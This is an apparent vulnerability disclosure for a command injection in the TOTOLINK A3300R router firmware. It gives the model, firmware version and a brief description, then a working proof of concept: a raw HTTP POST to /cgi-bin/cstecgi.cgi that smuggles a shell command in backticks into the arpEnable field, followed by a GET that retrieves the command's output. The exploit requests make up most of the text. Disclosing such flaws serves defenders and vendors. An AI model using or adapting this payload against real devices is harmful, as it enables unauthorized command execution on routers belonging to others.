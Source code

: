 #  A3300R setStaticDhcpRules Command Injection

verdor name: TOTOLINK

model: A3300R AC1200

version: V17.0.0cu.592_B20231030

firmware: https://www.totolink.tw/support_view/A3300R

![image-20241210182241481](1.assets/image-20241210182241481.png)

**Description**

The `arpEnable` parameter is vulnerable to command injection when processing the `setStaticDhcpRules` request.

**poc**

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.100.2
Content-Length: 87
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.100.2
Referer: http://192.168.100.2/login.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"arpEnable":"1`id>/web/15.txt`","addEffect":"3","topicurl":"setStaticDhcpRules"}
```

![image-20241211131416557](15.assets/image-20241211131416557.png)

```
GET /15.txt HTTP/1.1
Host: 192.168.100.2
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

